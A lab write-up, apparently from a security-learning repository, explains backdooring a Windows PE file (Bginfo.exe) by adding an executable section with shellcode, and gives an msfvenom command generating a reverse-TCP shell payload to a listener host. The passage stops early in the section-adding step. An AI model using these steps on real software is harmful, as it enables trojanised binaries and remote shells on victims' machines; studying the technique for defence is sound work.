 # Backdooring PE Files with Shellcode
*The purpose of this lab is to learn the Portable Executable (PE) backdooring technique by adding a new readable/writable/executable code section with our malicious shellcode to any portable executable file.*

*High level process of this technique:*

*-Add a new RWX PE section, big enough to hold our shellcode, to any .exe file*  
*-Generate shellcode*  
*-Add shellcode to the newly created PE section*  
*-Redirect execution flow of the .exe file being backdoored to the shellcode*  
*-Redirect execution flow back to the legitimate .exe instructions*  

# Generate Shellcode
*First of, let's generate the shellcode so we know how many bytes of space we will need in the new PE section:*

```msfvenom -p windows/shell_reverse_tcp LHOST=10.0.0.5 LPORT=443 | hexdump -C```  
![image](https://github.com/0x074b/Code-Process_Injection/assets/83349783/fb73271e-7bcc-4e0f-bf7b-a0dab96a4d04)  
*Note that the shellcode size is 324 bytes - the new PE section will have to be at least that big.*

# New PE Code Section
*I randomly chose Bginfo.exe from sysinternals as a binary to be backdoored. Let's add a new PE section called  that will contain our shellcode - note the size is 200h bytes, so plenty for our shellcode which was only 324 bytes:*```.code1```
